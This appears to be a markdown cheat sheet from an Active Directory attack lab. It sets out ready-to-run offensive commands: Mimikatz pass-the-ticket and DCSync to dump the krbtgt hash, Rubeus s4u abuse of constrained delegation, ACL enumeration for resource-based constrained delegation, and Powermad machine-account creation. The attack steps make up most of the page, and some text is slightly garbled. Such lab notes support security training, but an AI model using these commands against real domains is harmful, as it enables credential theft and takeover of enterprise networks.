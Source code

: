 ## Using mimikatz:
`Invoke-Mimikatz -Command '"kerberos::ptt GS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'`
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

## To abuse constrained delegation for dcorp-adminsrv$ using Rubeus, we can use the following command (We are requesting a TGT and TGS in a single command)(We asked LDAP service so as to perform dc-sync later :):
`Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt`
## After injection, we can run DCSync:
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`


##  Resource-based Constrained Delegation moves delegation authority to the resource/service administrator. Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service. That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins. o abuse RBCD in the most effective form, we just need two privileges.
– One, control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-MachineAccountQuota is 10 for all domain users)
– Two, Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity

## Admin privileges on student VMs that are domain joined machines.Enumeration for the users with Write permissions over the machines that have RCBD!
https://gist.github.com/FatRodzianko/e4cf3efc68a700dca7cedbfd5c05c99f
## Enumeration would show that the user 'ciadmin' has Write permissions over the dcorp-mgmt machine!
`Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}`

## Check the MachineAccountQuota setting for the domain and create a computer account using PowerMad:
#Check MachineAccountQuotaValue
`Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'`
#Use PowerMad to leverage MachineAccountQuota and make a new machine that we have control over
`Import-Module C:ToolsPowermad-masterPowermad.ps1`
`$password = ConvertTo-SecureString 'ThisIsAPassword' -AsPlainText -Force`
`New-MachineAccount -machineaccount dcorp-student1 -Password $($password)`
